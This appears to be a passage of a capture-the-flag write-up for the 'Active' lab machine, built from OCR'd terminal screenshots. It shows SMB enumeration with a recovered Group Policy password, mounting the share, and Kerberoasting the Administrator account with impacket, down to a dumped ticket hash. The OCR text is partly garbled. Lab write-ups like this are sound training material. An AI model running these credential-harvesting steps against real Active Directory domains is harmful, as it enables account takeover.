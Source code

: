 
Had some oddness with smbmap so had to mount the folder

![Machine generated alternative text: kali)-C ---\'Documents \'Active
GPPsti11StandingStrong2k18 N/. 10.10. 10.100 smbmap -d active.htb N/.
SVC TGS (l ShawnDEvansagmail . com Samba Share Enumerator I Shawn Evans
SMBMap https : //github . com/ShawnDEvans/smbmap \'priv status\' where
it is not associated with a value Detected 1 hosts serving SMS
Established 1 SMS session(s) cannot access local variable Bummer :
](media/image8.png){width="8.072916666666666in"
height="3.0520833333333335in"}

 

 

![C:\\507956E5\\D3CF0293-356D-4D78-8B70-1C4BFBCFF146_files\\image009.png](media/image9.png){width="3.0520833333333335in"
height="0.3958333333333333in"}

 

 

![Machine generated alternative text: H kali@ kali C---/Documents/Active
L-\$ sudo mount cifs // 10.10.1ø.1øø/Users /mnt/Users -o username-SVC
TGS , password-GPPsti11StandingStrong2k18, domain-active.htb
](media/image10.png){width="10.760416666666666in"
height="0.5520833333333334in"}

 

 

![Machine generated alternative text: (kali\'S ---/Documents/Active \$
cd /mnt/Users ( kali@ kali C/mnt/Users \' Default User\' desktop. ini
\'My Documents\' public \'My Music\' SVC_TGS \'My Pictures\'
Administrator kali@ kali C/mnt/Users SVC_TGS Default ( kali@ kali )-
/mnt/Users/SVC\_ Desktop Downloads Contacts (kali@ kali
C/mnt/Users/SVC\_ \$ cd Desktop ( kali@ kali )- /mnt/Users/SVC\_ user.
txt TGS Favorites TGS TGS/Desktop Links \'My Videos\' \' Saved Games \'
Searches ](media/image11.png){width="11.104166666666666in"
height="3.3645833333333335in"}

 

User flag obtained and now we will see if there are users that are
Kerberoastable

 

 

 

Screen clipping taken: 09/09/2023 20:45

 

 

![Machine generated alternative text: (kali@ kali)-C ---\'Documents
\'Active \$ impacket-GetUserSPNs active . htb/svc_tgs
:GPPsti11StandingStrong2k18 -dc-ip 10.10. 10.100 Impacket vø.ll.ø
Copyright 2023 Fortra -request PasswordLastSet LastLogon 2023-09-09
18:59: 23.663746 Delegation ServicePrincipa1Name Name MemberOf
active/CIFS:445 Administrator 2018-07-18 CN-Group Policy Creator Owners,
Dc-active, DC-htb CCache file is not found. Skipping. .
\$krb5tgs\$23\$\*Administrator\$ACTIVE . HTB\$active .
htb/Administrator\*\$d59a317c5bøeb15a91dfcd7ø9b33fe71\$37e6ø3ab659fd5648132c76ø3fc77b9232d4øf4fca99f2aa1e9d8d35dd7Ø49aecø
f65f455daøø7fb692føbb5dd6cb5218116edc11342349f7363352b52d3f492cc45baa65a9c35bd522f5632b44e2Ø494afec8ceø66b1d52787177a696fb8øa7a4ae6cøff377b439a5972314f74519a4c6f45
919076ca8be3bd4127b1b789e94127Ø5546Ø1d72f34755fabf462dd7f5d97f9a1Ø6c8773c169b577øø2adcaø92d3726d3Ø9899øb164dø78ødfad795a4dc73d7c492cfa2318f1166e96e3f48c8bbb4daefc8